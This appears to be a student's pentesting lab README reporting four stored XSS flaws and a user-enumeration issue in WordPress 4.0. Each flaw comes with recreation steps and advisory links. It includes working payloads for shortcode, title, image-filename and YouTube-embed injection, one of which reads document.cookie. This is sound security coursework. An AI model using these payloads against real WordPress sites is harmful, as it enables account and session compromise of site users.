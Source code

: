 # Project 7 - WordPress Pentesting

Time spent: **6** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Vulnerability Name or ID: 4.3 - Authenticated Shortcode Tags Cross-Site Scripting (XSS)
  - [X] Summary: 
    - Vulnerability types:XSS
    - Tested in version:4.0
    - Fixed in version: 4.3
  - [X] GIF Walkthrough:
    - <img src='Clickme.gif' title='Authenticated Shortcode Tags Cross-Site Scripting' width='' alt='' />
  - [X] Steps to recreate: 
    - add a new post
    - insert ```TEST!!![caption width="1" caption='<a href="' ">]</a><a href="http://onMouseOver='alert(1)'">Click me</a>``` on the context
    - publish and view post or click on preview
  - [X] Affected source code:
    - [Link 1](http://blog.knownsec.com/2015/09/wordpress-vulnerability-analysis-cve-2015-5714-cve-2015-5715/)
    - [Link 2](http://blog.checkpoint.com/2015/09/15/finding-vulnerabilities-in-core-wordpress-a-bug-hunters-trilogy-part-iii-ultimatum/)
1. (Required) Vulnerability Name or ID: 4.2.2 - Authenticated Stored Cross-Site Scripting (XSS)
  - [X] Summary: 
    - Vulnerability types:XSS
    - Tested in version:4.0
    - Fixed in version:4.2.2 
  - [X] GIF Walkthrough: 
    - <img src='Hello.gif' title='Authenticated Stored Cross-Site Scripting' width='' alt='' />
  - [X] Steps to recreate: 
    - add a new post
    - insert ```<a href="[caption code=">]</a><a title=" onmouseover=alert('XAIO_HE') ">link</a>``` on the context
    - publish and view post or click on preview
  - [X] Affected source code:
    - [Link 1](https://klikki.fi/adv/wordpress3.html)
1. (Required) Vulnerability Name or ID: 2.5-4.6 - Authenticated Stored Cross-Site Scripting via Image Filename
  - [X] Summary: 
    - Vulnerability types:XSS
    - Tested in version:4.0
    - Fixed in version:4.6 
  - [X] GIF Walkthrough: 
    - <img src='pic.gif' title='Authenticated Stored Cross-Site Scripting via Image Filename' width='' alt='' />
  - [X] Steps to recreate: 
    - add a new post
    - insert ```cengizhansahinsumofpwn<img src=a onerror=alert(document.cookie)>.jpg``` on the context
    - publish and view post or click on preview
  - [X] Affected source code:
    - [Link 1](https://sumofpwn.nl/advisory/2016/persistent_cross_site_scripting_vulnerability_in_wordpress_due_to_unsafe_processing_of_file_names.html)
1. (Optional) Vulnerability Name or ID: 4.0-4.7.2 - Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
  - [X] Summary: 
    - Vulnerability types:XSS
    - Tested in version:4.0
    - Fixed in version: 4.7.2
  - [X] GIF Walkthrough: 
    - <img src='youtube.gif' title='Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds' width='' alt='' />
  - [X] Steps to recreate: 
    - add a new post
    - insert ```https://youtube[.]com/watch?v=abc<svg onload=alert(1)>``` on the context
    - publish and view post or click on preview
  - [X] Affected source code:
    - [Link 1](https://blog.sucuri.net/2017/03/stored-xss-in-wordpress-core.html)
1. (Optional) Vulnerability Name or ID
  - [X] Summary: 
    - Vulnerability types:User Enumeration
    - Tested in version:4.0
    - Fixed in version: 
  - [X] GIF Walkthrough: 
    - <img src='user 1.gif' title='USER' width='' alt='' />
  - [X] Steps to recreate: 
    - On the login page, anyone has the ability to find a list of valid user names on a WordPress site
  - [] Affected source code:
## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes



## License

    Copyright [2018] [Jinhui Zhuo]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
